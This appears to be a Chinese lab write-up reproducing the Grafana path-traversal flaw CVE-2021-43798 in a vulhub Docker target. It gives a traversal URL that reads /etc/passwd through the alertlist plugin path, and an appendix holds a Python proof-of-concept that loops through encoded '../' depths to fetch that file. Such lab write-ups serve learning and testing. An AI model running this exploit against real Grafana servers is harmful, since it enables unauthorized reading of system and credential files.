



# 一、概述
* Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知
* 我以前用Frafana其实主要是作为系统运行状态的监控，例如：磁盘、CPU、内存、IO、网络连接、带宽等，可能我用的比较低级

# 二、影响版本
* Grafana 8.0.0-beta1 to 8.3.0

# 三、靶场搭建
* 这里我使用的是`vulhub`线下靶场
```
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# ls
1.png  docker-compose.yml  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# pwd
/home/wq/vulhub/grafana/CVE-2021-43798
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker-compose up -d
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker ps 
CONTAINER ID   IMAGE                  COMMAND     CREATED         STATUS         PORTS                                       NAMES
a00bff358259   vulhub/grafana:8.2.6   "/run.sh"   2 minutes ago   Up 2 minutes   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   cve-2021-43798_web_1
```
* 尝试访问：`http://192.168.10.134:3000`，访问成功说明靶场搭建成功
  


# 四、漏洞复现
* 漏洞发现过程：
    * 这里在访问这个地址时发现了是`Granfan`服务，猜测可能存在跨路径访问的漏洞
    * 我们是`BP`进行抓包复现
      
    * 编写POC进行测试：开始访问：`http://192.168.10.134:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`
      
    * 出现以上内容存在跨路径访问漏洞

# 五、总结
* 当我们拿到一个可以登录的服务时候，我们需要知道这个是什么服务，对于不同服务的默认登录，往往都是有漏洞是可以利用的，这个明显看出就是`grafana`的服务，再我们并不知道服务版本信息的时候，往往都要去cve的批量漏洞扫描，现在结合我们已经掌握的漏洞进行，尝试去跨路径去方式

# 六、附录
* 备注：脚本有点问题，自行修改，这里只是做为参考
``` python
import time

import requests

headers = {'content-type': 'application/json',
           'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36 QIHU 360SE'
           }
def pocTest(url,cookies=""):
    for i in range(1,10):
        try:
            """
            /public/plugins/alertlist/../../../../../%2e%2e/../../etc/passwd
            """
            PATH = '%2e%2e/'*i
            urls = "{}public/plugins/alertlist/{}etc/passwd/".format(url,PATH)
            print("当前url:{}".format(urls))
            time.sleep(2)
            res = requests.get(url=urls,headers=headers,cookies=cookies)
            if "root" in res.content.decode("utf-8"):
                print("漏洞验证成功,当前请求链接为:{}".format(urls))
                print(res.content.decode("utf-8"))
        except Exception as erro:
            print(erro)

def reqCookie(url):
    try:
        res = requests.get(url=url,headers=headers,verify=False)
        print(res.status_code)
        if res.status_code == 200:
            print("访问正常")
            if res.cookies != "":
                return res.cookies.values()
            else:
                return ""
    except Exception as erro:
        print(erro)


if __name__ == "__main__":
    isCookie = False
    url = "http://192.168.10.134:3000/"
    if isCookie:
        """
        不需要带有cookies可以直接进行POC验证请求
        """
        pocTest(url)
    else:
        """
        需要带有cookies需要先get请求一次获取返回的cookies
        """
        resCookies = reqCookie(url)
        pocTest(url,cookies=resCookies)

```
